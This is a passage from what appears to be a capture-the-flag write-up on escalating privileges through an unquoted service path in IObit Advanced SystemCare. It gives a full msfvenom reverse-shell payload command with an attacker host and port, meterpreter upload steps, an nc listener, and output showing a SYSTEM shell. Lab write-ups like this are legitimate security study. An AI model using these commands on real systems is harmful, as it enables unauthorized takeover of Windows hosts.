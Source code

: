 ```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.113.193 LPORT=9002 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```

When exploiting an Unquoted Service Path, the windows system will read the path and resolve the executable path in the following order:

```shell
C:\Program.exe
C:\Program Files (x86)\IObit\Advanced.exe
C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe (actual service binary)
```

This means that if we put as .exe at C:\Program Files (x86)\IObit named Advanced.exe, the system will execute it when checking for C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe.

Now move it with meterpreter and put it inside C:\Program Files (x86)\IObit

```shell
# Move Advanced.exe to the unquoted path
cd "C:\Program Files (x86)\IObit"
upload Advanced.exe

# Start our nc listener
nc -lvnp 9002

# Get PowerShell shell and restart the service
powershell_shell
Restart-Service AdvancedSystemCareService9
```

Using any of the both privilege escalation methods, we will get a response on our nc listener, giving us a shell as system:

```shell
listening on [any] 9002 ...
connect to [10.11.113.193] from (UNKNOWN) [10.10.36.183] 49401
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

### Root Flag
Now we can get the root.txt flag:

```shell
type C:\Users\Administrator\Desktop\root.txt
```

